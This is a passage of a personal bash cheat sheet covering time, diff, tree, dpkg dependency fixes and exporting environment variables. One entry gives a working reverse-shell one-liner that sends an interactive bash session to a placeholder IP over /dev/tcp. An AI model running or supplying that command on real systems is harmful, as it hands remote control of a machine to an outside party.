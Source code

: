 ```bash
popd
```

## bash

To create a reverse shell

```bash
bash -i >& /dev/tcp/<IP>/1337 0>&1
```

## time

To calculate the execution time of a command. 

```bash
time python3 main.py
```

## diff

To see the difference between the two files just use 

```bash
# If the files are just like each other the value of $? is 0
diff FILE1 FILE2

# To see more lines after and before changes
diff -u FILE1 FILE2
```

> You can install the colordiff to have colors

## Tree the folders 2 levels

```bash
tree -L 2 .
```

## Install DPKG dependencies

```bash
# First, install the DPKG
sudo dpkg -i package_with_unsatisfied_dependencies.deb

# Run this command to satisfy the dependencies
apt-get -f install
```

## Environment variables

Import environment variables from a file.

`set -a` causes variables defined from now on to be automatically exported. It's available in any Bourne-like shell. `.` is the standard and Bourne name for the `source` command so I prefer it for portability (`source` comes from `csh` and is now available in most modern Bourne-like shells including `bash` though (sometimes with a slightly different behavior)).
